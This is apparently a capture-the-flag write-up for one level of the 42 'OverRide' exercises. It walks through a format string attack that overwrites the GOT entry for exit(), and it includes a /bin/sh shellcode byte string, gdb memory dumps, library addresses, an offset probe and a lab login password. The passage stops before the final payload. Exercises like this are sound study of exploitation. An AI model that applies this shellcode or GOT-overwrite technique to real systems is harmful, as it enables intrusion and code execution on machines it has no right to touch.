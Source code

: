 # Format String Attack

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level05
           ____                  ____  _     __   
          / __ \_   _____  _____/ __ \(_)___/ /__ 
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/ 
                                          
                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level05@192.168.56.101's password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```
Only one `main()` function is defined in the executable.
It gets users input, decapitalize and print, following by exit with status 0.

Even though the stack is executable, at the first glance shellcode can be placed in the buffer. But the redirection of the flow to the stack will not work, as the program modify user input.
```shell
level05@OverRide:~$ readelf -a level05 | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```
```
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```
```
Breakpoint 1, 0x0804847a in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6850c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x50e3896e<<  >>0xb0e18953<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
gdb-peda$ x/25wx 0xffffd698
gdb-peda$ continue
Breakpoint 2, 0x08048513 in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6870c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x70e3896e<<  >>0xb0e18973<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
```

The issue is that `printf()` is missuded which expose the application to the Format String Attack.
FSA allows to apply overwrite of GOT table where address of `exit()` is stored.

Determine addresses of `system()` and `"/bin/sh"` as well as where `exit()` is stored.
```
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
gdb-peda$
gdb-peda$ x/i main+207
  0x8048513 <main+207>: call 0x8048370 <exit@plt>
gdb-peda$ disassemble 0x8048370
Dump of assembler code for function exit@plt:
  0x08048370 <+0>:  jmp  DWORD PTR ds:0x80497e0
  0x08048376 <+6>:  push 0x18
  0x0804837b <+11>: jmp  0x8048330
End of assembler dump.
gdb-peda$ x 0x80497e0
  0x80497e0 <exit@got.plt>: 0x08048376
```

Input recognizable characters to determine how far away input is layed on the stack. Note that due to XOR operation upercase character will be inverted, A(41) will be a(61).
```shell
level05@OverRide:~$ python -c 'print("AAAABBBB" + "%x "*11)' | ./level05
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
Input string starts with offset 10.
```
        [1]      [2]      [3]      [4]      [5]      [6]      [7]      [8]      [9]      [10]     [11]
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
